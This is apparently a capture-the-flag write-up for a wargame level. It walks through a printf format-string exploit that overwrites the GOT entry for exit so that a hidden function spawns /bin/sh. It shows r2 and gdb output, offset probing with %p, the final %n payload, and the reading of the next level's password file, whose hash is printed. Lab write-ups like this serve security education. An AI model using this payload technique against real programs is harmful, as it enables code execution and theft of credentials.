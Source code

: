 # Level 5

Another `printf` format string exploit, except this time we won't get a shell by setting a value to a variable, instead we have to call the function `o`...

```shell
r2 ./level5
[0x080483f0]> aaa
[...]
[0x080483f0]> afl
0x080483f0    1 33           entry0
[...]
0x080484a4    1 30           sym.o
[0x080483f0]> s sym.o
[0x080484a4]> pdf
┌ 30: sym.o ();
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      83ec18         sub esp, 0x18
│           0x080484aa      c70424f08504.  mov dword [esp], str._bin_sh ; [0x80485f0:4]=0x6e69622f ; "/bin/sh" ; const char *string
│           0x080484b1      e8fafeffff     call sym.imp.system         ; int system(const char *string)
│           0x080484b6      c70424010000.  mov dword [esp], 1          ; int status
└           0x080484bd      e8cefeffff     call sym.imp._exit          ; void _exit(int status)
```

## Another day, Another %p

As usual let's check where our buffer starts in the stack
```shell
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*20'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0xa|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*4'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000%4$p"'`
00000x30303030
```
Ok perfect, now what?

## Pesky exit

```asm
0x080484e5      e8b6feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
0x080484ea      8d85f8fdffff   lea eax, [format]
0x080484f0      890424         mov dword [esp], eax        ; const char *format
0x080484f3      e888feffff     call sym.imp.printf         ; int printf(const char *format)
0x080484f8      c70424010000.  mov dword [esp], 1          ; int status
0x080484ff      e8ccfeffff     call sym.imp.exit           ; void exit(int status)
```


What if we just replaced the address of `exit()` with the address of `o`? let's try!

## The GOT

The Global Offset Table holds the adresses of functions that are dynamically linked, luckily for us it is writeable!

First let's get the value of `exit` in the GOT, before the program can replace it
```shell
level5@RainFall:~$ gdb ./level5
[...]
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) p o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

We need to override the value of `0x8049838` with the address of `o`, `0x80484a4`
sadly, struct.pack() messes with stdin so we'll have to passes the address in little endian directly
```shell
level5@RainFall:~$ (python -c 'import struct; print "\x38\x98\x04\x08" + "%{}p".format(str(0x80484a4-4)) + "%4$n"'; cat -)  | ./level5 | tr -d ' '
0x200
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
🚀
